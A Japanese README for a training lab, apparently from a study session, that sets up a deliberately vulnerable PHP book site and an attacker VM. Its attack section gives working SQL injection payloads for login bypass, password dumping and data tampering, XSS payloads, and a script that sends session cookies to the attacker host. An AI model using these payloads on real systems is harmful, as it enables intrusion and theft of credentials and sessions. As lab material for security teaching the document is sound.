 # TBKHACK-DEMO
====

勉強会で利用したWebアプリケーション脆弱性攻撃用サイトです。  
SQLインジェクションやXSSを攻撃しやすく作ってますので、構成等はめちゃくちゃですｗ  


## 脆弱性サイト構築手順

Virtual BoxとVagrantで作っていきます。  
事前にインストールしておいてください。  
手順はMacOSのみです。  

（Macにて）
* vagrant用ディレクトリ作成と移動
```sh
mkdir ~/dev/vagrant/tbk-demo && cd $_
```
* vagrant boxのtbkと名付けてダウンロード
```sh
vagrant box add tbk http://opscode-vm-bento.s3.amazonaws.com/vagrant/virtualbox/opscode_centos-6.7_chef-provisioner
```
 box追加確認

 ```sh
 vagrant box list
 ```
※ tbkあったらOKです。

* vagrant初期化
```sh
vagrant init
```

* vagrantfileを修正  
  ```sh
  vim vagrantfile
  ```

  ```
  ...

    # Create a private network, which allows host-only access to the machine
    # using a specific IP.
     config.vm.network "private_network", ip: "192.168.33.10"

     ...
   ```
* 仮想マシンの起動
```sh
vagrant up
```

* 仮想マシンへのログイン
```sh
vagrant ssh
```

(仮想マシンにて)

* パッケージ更新
  ```sh
  sudo yum update
  ```

* Apacheのインストール
  ```sh
  sudo yum install -y httpd
  ```

* MySQLのインストール
```sh
sudo yum install http://dev.mysql.com/get/mysql-community-release-el6-5.noarch.rpm
sudo yum install mysql-server
```

* PHP5.5のインストール
```sh
sudo rpm -Uvh http://dl.fedoraproject.org/pub/epel/6/x86_64/epel-release-6-8.noarch.rpm
sudo rpm -Uvh http://rpms.famillecollet.com/enterprise/remi-release-6.rpm
yum install --enablerepo=remi --enablerepo=remi-php55 pphp php-mbstring php-mysqlnd php-pdo
```

* サービス起動
```sh
sudo service httpd start
sudo service mysqld start
```

* MySQLの設定
```sh
mysql -u root
```
sql/create-table.sqlを実行

* プログラムの登録
/var/www/html配下にTBK-HMを配置

## 悪いサイト構築手順
※ 事前に上記の脆弱性サイトと同じ手順でvagrantを構築。  
　ipアドレスは192.168.33.20とします。  

* 事前準備
vagrant上のCentOSにphp5.5、apache(httpd)は導入。  
evelを/var/www/htmlに配置する。

* postfix導入
```sh
sudo yum install postfix cyrus-sasl-md5 cyrus-sasl-plain
```

* /etc/postfix/main.cf編集
vimなんかのエディタで作成しても、vagrant共有に持ってきてローカルで編集しても構いません。

  ```
  # 116行目　inet_interfaces = localhostを編集
  inet_interfaces = all

  # 119行目　inet_protocols = allを編集
  inet_protocols = ipv4

  # 318行目　以下追加
  relayhost = [smtp.gmail.com]:587
  smtp_use_tls = yes
  smtp_sasl_auth_enable = yes
  smtp_sasl_password_maps = hash:/etc/postfix/sasl_passwd
  smtp_sasl_tls_security_options = noanonymous
  smtp_sasl_mechanism_filter = plain
  smtp_sasl_security_options = noanonymous
  smtp_tls_CApath = /etc/pki/tls/certs/ca-bundle.crt
  ```

* /etc/postfix/sasl_passwd作成
vimなんかのエディタで作成しても、ローカルにsasl_passwdファイルを作ってvagrant共有して
/etc/postfixに配置しても良いです。
ファイルの中身は下記。gmailを想定しています。  
[smtp.gmail.com]:587 example@gmail.com:パスワード

* asl_passwdをsasl_passwdファイルをdb化
```sh
cd /etc/postfix
postmap sasl_passwd
```

* サービス起動
```sh
sudo service postfix start
```

* メール送信テスト  
```sh
sendmail.postfix [メールアドレス]
Subject: [件名]
test
.
```
宛先にメールが送信されたことを確認しましょう。

* /etc/php.ini編集  
vimなんかのエディタで作成しても、vagrant共有に持ってきてローカルで編集しても構いません。  
```
...
[mail function]
; For Unix only.  You may supply arguments as well (default: "sendmail -t -i").
; http://php.net/sendmail-path
sendmail_path = /usr/sbin/sendmail.postfix -t -i
...
```

## 攻撃パターン
### SQLインジェクション
【ログイン認証回避】  
```
http://192.168.33.10/TBK-HM/login.html
```
```
id:100001
pass:' or 'a'='a
```

【パスワード漏えい】   
```
http://192.168.33.10/TBK-HM/list.php?tg=1 union select '','',user_id,password from password
```

【情報漏えい】  
```
http://192.168.33.10/TBK-HM/list.php?tg=1 union select user_name,'',user_email,user_address from user
```

【情報改ざん】  
```
http://192.168.33.10/TBK-HM/list.php?tg=1;update book set bookname='hacking!' where isbn13='978-4041205570'
```

### XSS
[chrome xss-auditor解除]  
ターミナルで実行  
```
open -a Google\ Chrome --args --disable-xss-auditor
```

【alert】  
```
http://192.168.33.10/TBK-HM/confirm.php?isbn13=99999999&isbn10=99999999&bookname=<script>alert(1)</script>&author=aaa
```

【cookie】  
```
http://192.168.33.10/TBK-HM/confirm.php?isbn13=99999999&isbn10=99999999&bookname=<script>alert(document.cookie)</script>&author=aaa
```

【session漏洩】  
```
http://192.168.33.10/TBK-HM/confirm.php?isbn13=9&isbn10=9&bookname=<script>window.location='http://192.168.33.20/sendmail.php?p='%2Bdocument.cookie;</script>&author=aaa
```

【改ざん】  
```
http://192.168.33.20/trap_input.html
```

### CSRF
```
http://192.168.33.20/trap_threat.html
```
